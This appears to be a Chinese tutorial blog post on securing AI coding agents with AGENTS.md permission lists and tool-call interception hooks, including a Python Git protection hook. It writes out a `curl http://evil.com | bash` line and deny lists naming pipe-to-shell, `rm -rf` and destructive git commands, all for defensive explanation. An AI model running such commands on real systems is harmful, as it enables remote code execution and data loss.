


> 上一篇是 [Day 2｜极简主义与硬隔离：Pi 范式](/posts/2026/09/ai-path-l3-day2-pi-minimalism/)。理解了 Pi 为什么砍掉功能后，我们来看一个更具体的问题：砍掉之后，剩下的功能该怎么管？

本篇是 L3 的骨干篇。后续导航：

| Day | 类型 | 主题 |
|-----|------|------|
| Day 4 | 练习 | 重写你的 AGENTS.md + 加一个拦截 Hook |
| Day 5 | 骨干 | 工具即界面：三种扩展路径 |
| Day 6 | 练习 | 给你的 Agent 装一个新工具 |
| Day 7 | 骨干 | 元架构：Everything is a Plugin |
| Day 8 | 骨干 | 记忆、轨迹与可观测性 |
| Day 9 | 练习 | 毕业项目：搭建团队级 CI/CD 自动化 Harness |
| Day 10 | 阶段小结 | L3 毕业考核 + Harness 未来趋势 |

---

## "允许一切"的问题

Day 1 的 miniharness 有 7 个工具[1]，Day 2 的 Pi 砍到 4 个[2]。无论哪种，它们都有一个共同的前提：**所有工具默认可用**。

你让一个 Agent 去写代码，它"需要" bash 权限才能跑测试、改文件。给它 bash，它就同时获得了 `rm -rf /tmp/build`、`git push --force`、`curl http://evil.com | bash` 的能力。你信任它，但每次调用前，harness 都会问模型：这一步安全吗？模型会说"安全"，然后你点了允许，它就真的去执行了。

这就是 Day 2 批评的"表演式安全"——弹窗不是安全，只是让你觉得自己安全了。

真正的安全模型有两个层次：**静态约束**让工具权限在启动时定死，**动态拦截**让每次调用经过 Hook 审查。这两件事合起来，就是 Harness 的硬约束。

## 静态契约：AGENTS.md 的格式约定

先看第一个层次：静态约束。

静态约束的核心问题是：**怎么让模型一开始就知道自己有哪些能力、不能做什么？**

业界的答案是一个叫 `AGENTS.md` 的文件约定[3]。它由 OpenAI Codex、Cursor、Jules 等团队共同推动，现在由 Linux Foundation 旗下的 Agentic AI Foundation 托管，Codex、Cursor、Gemini CLI 等三十多个工具都认这个名字[3]。文件放在项目根目录，告诉 Agent 项目的结构、编码规范、常用命令、任务完成后怎么报告——定位是"写给 Agent 的 README"[3]。

下面是一个 AGENTS.md 示例（权限和禁止清单是团队自定义的约定，不是标准格式）：
```markdown
# AGENTS.md

## 项目结构
src/          # 源代码
tests/        # 测试
docs/         # 文档

## 允许的 Bash 命令
- python3 -m pytest tests/
- python3 -m ruff check src/
- git status
- git diff

## 禁止的命令
- rm -rf
- curl | bash
- git push --force
- pip install --upgrade  # 禁止升级依赖

## 工具权限
- read: 只读，不限制
- write: 可写 src/ 和 tests/，禁止覆盖 AGENTS.md
- edit: 同 write
- bash: 仅限允许的列表
```

先澄清一个事实：**AGENTS.md 本身不带强制性**[3]。它没有 schema，没有必填字段，官方 FAQ 说得很直白——"the agent simply parses the text you provide"。违反约定不会报错，它约束 Agent 的唯一方式是模型读了之后自觉遵守[3]。真实工具也是这么分工的：Codex 把各层 AGENTS.md 拼进启动时的指令链[4]；Claude Code 判断"这个命令能不能执行"，靠的是独立的权限规则配置，跟 AGENTS.md 是两份东西[5]。

所以静态约束要拆成两个角色：**约定**写在 AGENTS.md 里，**强制**由 harness 的解析层做。miniharness 选择了让两者合一：启动时强制解析 AGENTS.md，校验格式和内容；模型调用不在允许列表里的命令，harness 直接拒绝，返回错误信息给模型。这不是弹窗让你点允许，是代码层面的硬拦截。业界工具里这两个角色通常由两份配置承担——约定归 AGENTS.md，权限规则归各自的配置文件[4][5]。



## 生命周期 Hook：拦截器模式

静态约束管"能不能用"，Hook 管"用之前还要不要再过一道闸"。

Hook 是开发框架里常见的概念：在某个事件发生前后插入你自己的逻辑。在 harness 里，常见的事件节点是工具调用前、工具调用后、轮次开始/结束。

最小实现如下：

```python
class Hook:
    def on_before_tool(self, name, args):
        """工具调用前拦截"""
        pass

    def on_after_tool(self, name, result, is_error):
        """工具调用后拦截"""
        pass

    def on_loop_start(self, context):
        """每轮循环开始前"""
        pass

    def on_loop_end(self, context, status):
        """每轮循环结束后"""
        pass
```

Hook 可以做很多事：

- **权限检查**：对照规则列表（白名单或黑名单），越界命令直接抛异常
- **参数改写**：把危险命令改写成更安全的替代命令
- **结果校验**：检查输出是否符合预期，不符合就触发重试
- **轨迹记录**：把每次工具调用的输入输出写进日志，方便事后复盘
- **上下文裁剪**：当上下文超过某个长度时，触发摘要压缩


业界主流框架（Claude Code、Pi、OpenCode、smolagents）都提供了 Hook 扩展机制，只是形态不同——Claude Code 的 Hook 是独立 Shell 脚本，通过 stdin/stdout 接收 JSON 事件[6]；Pi 通过 `pi.on("tool_call", ...)` 事件系统监听[2]；OpenCode 的插件在 loop 层面注册 before/after 回调[7]。

## 一个完整的例子：Git 保护 Hook

这个 Hook 的作用是：**防止 Agent 对 Git 仓库做破坏性操作**。

```python
class GitProtectionHook(Hook):
    """防止危险 Git 操作的拦截器"""

    DANGEROUS_COMMANDS = [
        "git reset --hard",
        "git clean -fd",
        "git rm --cached -r .",
    ]

    def on_before_tool(self, name, args):
        if name != "bash":
            return

        command = args.get("command", "")

        for pattern in self.DANGEROUS_COMMANDS:
            if pattern in command:
                raise PermissionError(
                    f"Blocked dangerous command: {command[:80]}"
                )

        # 额外检查：push 到远端需要明确授权
        if "git push" in command and "--dry-run" not in command:
            raise PermissionError(
                "git push requires --dry-run flag for safety"
            )
```

这里把规则列表直接写死在 Hook 里，是为了让示例独立；实际项目里，这份规则应该来自 AGENTS.md 或配置文件，由静态契约层在启动时注入。

这段代码很简单，但解决了真实场景里的高风险问题。

有人问：为什么不让模型自己在 prompt 里承诺"不会做危险操作"？答案是模型会犯错，而且犯错时往往是在"帮用户解决问题"的动机下犯的——它觉得你在帮它排除障碍，它会更激进地尝试。硬拦截比软承诺可靠。

这个 Hook 的价值还在于**可审计**。每次拦截都会被记录下来，你可以事后查看 Agent 尝试了什么、被拦了几次、为什么。这些日志是调试 Agent 行为的宝贵数据。



## 三层防护：从契约到拦截

把静态约束和 Hook 组合起来，得到三层防护：

| 层次 | 机制 | 作用 | 开销 |
|------|------|------|------|
| 第一层 | 静态契约（白名单） | 启动时锁定权限，Agent 不能临时要求更多 | 最低，解析一次文件，占用少量上下文 token |
| 第二层 | Hook 拦截器 | 每次调用前检查、改写参数、记录日志 | 轻微，每次调用有函数调用开销 |
| 第三层 | 外部沙箱 | 容器化物理隔离，即使突破前两层也出不去 | 最高，容器启动开销与资源隔离成本 |

三层按需叠加。个人开发可能只需要第一层；团队协作需要三层；处理敏感数据的场景必须三层全开。

## 今天的实践任务

你已经用过 Claude Code、Pi、Codex 或 DeepSeek Harness（DSH）[8]了吧？那正好，这篇的练习不是让你从零搭 harness，而是**观察你已经在用的工具是怎么实现这些约束的**。

具体步骤：
1. 选一个你用过的 Agent 工具（Claude Code、Pi、Codex 或 DSH）
2. 查看它的 Hook 配置文档，了解它支持哪些事件类型
3. 写一个简单的 Hook：对所有 bash 命令先只记录日志、不拦截
4. 跑一个任务，看日志里记录了什么
5. 同时检查 AGENTS.md 或等效配置文件，看看静态约束是怎么定义的

这个练习的目的不是写代码，而是**建立一种观察习惯**：下次你用 Agent 工具时，留意它在你背后做了什么，哪些是硬约束，哪些是弹窗协商。

## 今日收获

今天我们讨论了三个核心结论：

1. **静态约束 > 动态协商**：工具权限应该在 harness 启动时定死，而不是每次调用时弹窗问模型。
2. **Hook 是拦截器模式，不是权限系统**：Hook 负责检查、改写、记录，不负责判断"这个命令安全吗"——判断规则来自启动时定死的静态权限配置，不靠 Hook 现场裁量。
3. **三层防护按需叠加**：白名单 + Hook + 沙箱，每层解决不同层次的问题，不要试图用一层解决所有问题。

下一天 Day 4，我们会重写 AGENTS.md，并实际加一个拦截 Hook，把今天的理论变成代码。

---

## 参考资料

1. [tljcpa/miniharness：最小 Harness 实证研究仓库](https://github.com/tljcpa/miniharness)
2. [Pi 官方文档：extensions.md](https://github.com/earendil-works/pi/blob/main/packages/coding-agent/docs/extensions.md)
3. [AGENTS.md 开放格式规范官网](https://agents.md/)
4. [OpenAI Codex 文档：Custom instructions with AGENTS.md](https://learn.chatgpt.com/docs/agent-configuration/agents-md)
5. [Claude Code 文档：Configure permissions](https://code.claude.com/docs/en/permissions)
6. [Claude Code 文档：Hooks reference](https://code.claude.com/docs/en/hooks)
7. [OpenCode Hook 系统文档](https://github.com/anomalyco/opencode/blob/main/docs/hooks.md)
8. [DeepSeek Harness 官方文档：architecture.md](https://github.com/deepseek-ai/deepseek-harness/blob/master/docs/architecture.md)
